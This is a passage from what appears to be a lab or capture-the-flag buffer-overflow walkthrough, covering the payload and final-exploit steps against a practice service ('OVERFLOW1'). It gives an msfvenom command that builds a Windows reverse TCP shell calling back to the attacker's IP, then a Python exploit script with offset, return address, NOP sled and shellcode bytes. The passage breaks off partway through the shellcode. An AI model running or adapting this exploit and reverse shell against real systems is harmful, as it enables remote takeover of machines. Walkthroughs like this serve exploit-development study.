 ## **5. Generating payload - msfvenom**


Using the command below we can generate windows shell (remember to put appropriate bad chars!):

    msfvenom -p windows/shell_reverse_tcp LHOST=10.18.63.113 LPORT=4445 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c

![](p/5.png)

Copy the output and paste it into *payload* variable in our *exploit.py* script.

## **6. Final steps before exploit - adding NOPs**

We used encoder was used to generate shellcode we will need extra memory to unpack it, so we need to add "No operation" byte to make sure that our payload will execute. 

Final *exploit.py*:

```python
import socket

ip = "10.10.90.240"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = (
	"\xdb\xc8\xbd\x22\xe7\xaf\xc4\xd9\x74\x24\xf4\x5e\x31\xc9"
"\xb1\x52\x31\x6e\x17\x83\xee\xfc\x03\x4c\xf4\x4d\x31\x6c"
"\x12\x13\xba\x8c\xe3\x74\x32\x69\xd2\xb4\x20\xfa\x45\x05"
"\x22\xae\x69\xee\x66\x5a\xf9\x82\xae\x6d\x4a\x28\x89\x40"
"\x4b\x01\xe9\xc3\xcf\x58\x3e\x23\xf1\x92\x33\x22\x36\xce"
"\xbe\x76\xef\x84\x6d\x66\x84\xd1\xad\x0d\xd6\xf4\xb5\xf2"
"\xaf\xf7\x94\xa5\xa4\xa1\x36\x44\x68\xda\x7e\x5e\x6d\xe7"
"\xc9\xd5\x45\x93\xcb\x3f\x94\x5c\x67\x7e\x18\xaf\x79\x47"
"\x9f\x50\x0c\xb1\xe3\xed\x17\x06\x99\x29\x9d\x9c\x39\xb9"
"\x05\x78\xbb\x6e\xd3\x0b\xb7\xdb\x97\x53\xd4\xda\x74\xe8"
```